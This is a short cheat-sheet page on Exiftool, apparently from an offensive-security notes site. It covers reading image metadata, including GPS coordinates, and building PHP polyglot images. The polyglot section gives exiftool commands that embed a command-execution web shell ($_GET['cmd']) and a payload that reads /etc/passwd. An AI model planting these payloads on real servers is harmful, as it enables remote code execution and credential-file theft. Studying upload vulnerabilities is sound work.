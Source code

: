 ```yaml
---
title: Exiftool
desc: Read and write meta information in files. It’s also used to create a polyglot. 
tags: [FileUpload, ReverseShell, Steganography]
alts: [Binwalk, FileUploadVulnerabilities, Steghide, Stegseek, Xxd, Zsteg]
website:
render_with_liquid: false
---
```


## Read Meta Information

```sh
exiftool example.jpg

# If you get the GPS Latitude/Longitude, you can get the location by searching on Google Map
# e.g. GPS Latitude: 54 deg 17' 41.27" N
# e.g. GPS Longitude: 2 deg 15' 1.33" W
# Input "54 17' 41.27" N 2 15' 1.33" W" in the search form on Google Map.
```

<br />

## Create A Polyglot

It's assumed that you have an image file.

```sh
exiftool -Comment="<?php system('ls'); ?>" example.png
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```
